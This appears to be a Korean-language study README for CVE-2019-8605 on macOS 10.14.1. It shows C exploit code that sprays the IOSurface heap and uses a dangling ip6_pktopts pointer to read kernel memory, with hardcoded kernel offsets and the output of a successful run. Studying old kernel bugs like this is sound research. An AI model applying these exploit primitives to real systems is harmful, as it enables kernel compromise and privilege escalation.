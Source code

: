 # **IOSurface_kread_observe (CVE-2019-8605)**

## 환경

macOS 10.14.1 x86_64 ([net.siguza.hsp4.kext](https://github.com/Siguza/hsp4/tree/master) 필요)

## 설명

이전에 작성한 dangling_kptr_reuse 레포지토리와 비슷하지만 샬짝 다릅니다.

**해당 레포지토리는 IOSurface Heap Spraying 기법으로 커널 읽기를 수행하는데, 
여기서 dangling 포인터가 실제로 재사용되는지 확인하고, 
dangling 포인터에는 어떤 데이터가 담기게 되는지 알아봅니다.**

이전에, 상위 폴더의 레포지터리에 작성된 README 내용을 봤을 때,
[“OSUnserializeBinary 포맷을 활용한 IOSurface 풍수” 제목](https://github.com/wh1te4ever/xnu_1day_practice/tree/main/CVE-2019-8605#osunserializebinary-%ED%8F%AC%EB%A7%B7%EC%9D%84-%ED%99%9C%EC%9A%A9%ED%95%9C-iosurface-%ED%92%8D%EC%88%98)으로 
IOSurface에 풍수할 데이터가 어떻게 만들어지는지 알아봤습니다.

이렇게 풍수될 데이터는 `IOSurface_set_value` 함수에 의해 커널에 데이터가 적재됩니다.

커널에 적재된 데이터들을 확인하는 방법은 다음과 같습니다.

유저 영역에서 가져온 IOSurface를 초기화할때 가져온 mach_port를 가지고, 
커널 영역의 kobject에 접근하여 순차적으로 구조체 필드에 접근함으로써 
풍수된 dictionary부터 OSArray까지 접근할 수 있습니다.

socket_fd로부터 가져온 dangling 커널 포인터가 
풍수에 의해 적재된 OSArray에 있는 요소의 주소와 서로 일치하면
dangling 포인터가 재사용되었다는 것을 의미합니다.

임의로 8바이트 커널에 할당된 포인터에 `0xc0debabe13371338` 값을 kwrite64하고,
취약점을 이용하여 `rk64_via_uaf` 함수에 의해 읽어오는데, 
여기에 스프레이된 커널 데이터 중에서 댕글링 포인터가 실제로 재사용되는지 확인하기 위해 만들었습니다.

```c
// obtain userdict from IOSurface
//Thanks @jmpews, https://gist.github.com/jmpews/01b520993a742f72714cd06e40793eed
uint64_t userdict_from_IOSurface(void) {
	uint64_t surfRoot = port_to_kobject(IOSurfaceRootUserClient);
	// INFO("surfRoot: 0x%llx\n", surfRoot);

	// p/x offsetof(IOSurfaceRootUserClient, IOSurfaceClientArray) = 0x118;
	uint64_t surfClients = kread64(surfRoot + 0x118);
	// INFO("surfClients: 0x%llx\n", surfClients);

	uint64_t surfClient = kread64(surfClients + sizeof(uint64_t) * IOSurface_id);
	// INFO("surfClient: 0x%llx\n", surfClient);

	// p/x offsetof(IOSurfaceClient, IOSurface) = 0x40;
	uint64_t surface = kread64(surfClient + 0x40);
	// INFO("surface: 0x%llx\n", surface);

	// p/x offsetof(IOSurface, UserspaceValueDictionary) = 0xd0
	uint64_t userspaceValueDicts = kread64(surface + 0xd0);

	if(userspaceValueDicts != 0) return userspaceValueDicts;

	return 0;
}

bool is_our_sprayed_OSArray(uint64_t osarray) {
	uint32_t osarray_count = kread32(osarray + 0x20);	// 0x20 = p/x offsetof(OSArray, count)
	uint32_t osarray_capacity = kread32(osarray + 0x24);	// 0x24 = p/x offsetof(OSArray, capacity)
	
	if(osarray_count != 256)	return false;

	for(int i = 0; i < 256; i++) {
		uint64_t osdata_in_osarray = OSArray_objectAtIndex(osarray, i);
		uint64_t kbuffer = OSData_buffer(osdata_in_osarray);
		if(kread64(kbuffer + offsetof(struct ip6_pktopts, ip6po_minmtu)) != 0x41424344) return false;

		//yes, it's our sprayed osarray!
		printf("our sprayed 192bytes OSArray[%d] = 0x%llx\n", i, kbuffer);

		for(int j = 0; j < sizeof(dangling_kptrs) / sizeof(uint64_t); j++) {
			if(kbuffer == dangling_kptrs[j]) {
				INFO("DANGLING KPTR REUSE DETECTED!!! OSArray[%d](0x%llx) == dangling_kptrs[%d](0x%llx)\n", i, kbuffer, j, dangling_kptrs[j]);
				khexdump(dangling_kptrs[j], 0xc0);
				break;
			}
		}
	}

	return true;
}

// second primitive: read 20 bytes from addr
void* read_20_via_uaf(uint64_t addr) {
    // create a bunch of sockets
    int sockets[128];
    for (int i = 0; i < 128; i++) {
        sockets[i] = get_socket_with_dangling_options();
		dangling_kptrs[i] = get_dangling_ip6_pktopts_kaddr(sockets[i]);
    }
 
	for (int i = 0; i < 128; i++) {
        INFO("dangling_kptr = 0x%llx; obtained from socket_fd=%d\n", dangling_kptrs[i], sockets[i]);
    }
...
	uint64_t userspaceValueDicts = userdict_from_IOSurface();
	INFO("userspaceValueDicts: 0x%llx\n", userspaceValueDicts);

	struct kOSDict *dict = kernel_fetch_dict(userspaceValueDicts);

	int sprayed_osarray_found_count = 0;
    for (int i = 0; i < dict->count; i++) {
		if(is_our_sprayed_OSArray(dict->items[i].value)) {
			INFO("sprayed OSArray from dict[%u]: 0x%llx\n\n", i, dict->items[i].value);
			sprayed_osarray_found_count++;
		}
  }
	INFO("sprayed_osarray_found_count = %d\n", sprayed_osarray_found_count);
... 
    return buf;
}
```

레포지토리에 있는 실제 코드를 실행시켜보면,
스프레이된 2번째 dict 중 OSArray[47]이 dangling된 `inp->in6p_outputopts` 주소를 가리키고 있었습니다.

dangling된 주소는 **0xffffff802c0d7280**입니다.

여기서 [**0xffffff802c0d7280**+0x010] 필드에 임의로 8바이트 할당된 커널 주소가 적혀있습니다.

0x10 오프셋 필드는 `struct ip6_pktopts`의 ip6po_pktinfo 필드에 속하기 때문에
`get_pktinfo` 함수로 해당 주소의 20바이트를 읽어올 수 있습니다.

```
ret: 0x0, hsp4: 0xb03
kext_name: com.apple.kec.corecrypto
kext_addr_slid: 0xffffff7f9dcc7000
get_kbase ret: 0, kbase: 0xffffff801ce00000, kslide: 0x1cc00000
[*] IOSurface_init success, IOSurface_id=0x3
[*] surfRoot: 0xffffff802c4280e0
[*] surfClients: 0xffffff802deb0000
[*] surfClient: 0xffffff802c092e60
[*] surface: 0xffffff802b4fbc00
[*] kptr = 0xffffff80b0dbb000 -> kread64: 0xc0debabe13371338
[*] dangling_kptr = 0xffffff802c0d7280; obtained from socket_fd=3
[*] dangling_kptr = 0xffffff802c0d7280; obtained from socket_fd=4
...
[*] spray_IOSurface_call_count: 1
[*] userspaceValueDicts: 0xffffff8029396680
[*] dict 0xffffff8029396680, items 0xffffff80290ca240, count 33, capacity 36
our sprayed 192bytes OSArray[0] = 0xffffff802c0d5b40
our sprayed 192bytes OSArray[1] = 0xffffff802c0d5180
...
[*] sprayed OSArray from dict[1]: 0xffffff80293966c0

our sprayed 192bytes OSArray[0] = 0xffffff802932c480
our sprayed 192bytes OSArray[1] = 0xffffff802bbe7640
our sprayed 192bytes OSArray[2] = 0xffffff802bbe7100
...
our sprayed 192bytes OSArray[47] = 0xffffff802c0d7280
[*] DANGLING KPTR REUSE DETECTED!!! OSArray[47](0xffffff802c0d7280) == dangling_kptrs[0](0xffffff802c0d7280)
=============================
[0xffffff802c0d7280+0x000] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
**[0xffffff802c0d7280+0x010] 00 B0 DB B0 80 FF FF FF**  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x020] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x030] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x040] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x050] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x060] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x070] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x080] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x090] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x0a0] 00 00 00 00 44 43 42 41  00 00 00 00 00 00 00 00  |  ....DCBA........ 
[0xffffff802c0d7280+0x0b0] 00 00 00 00 44 43 42 41  00 00 00 00 00 00 00 DE  |  ....DCBA........ 
=============================
our sprayed 192bytes OSArray[48] = 0xffffff802dc05600
...
our sprayed 192bytes OSArray[255] = 0xffffff802dc0c3c0
[*] sprayed OSArray from dict[2]: 0xffffff8029396a00

...
[*] sprayed OSArray from dict[32]: 0xffffff8029346f80

[*] sprayed_osarray_found_count = 32
[*] rk64_via_uaf(kptr) = 0xc0debabe13371338
```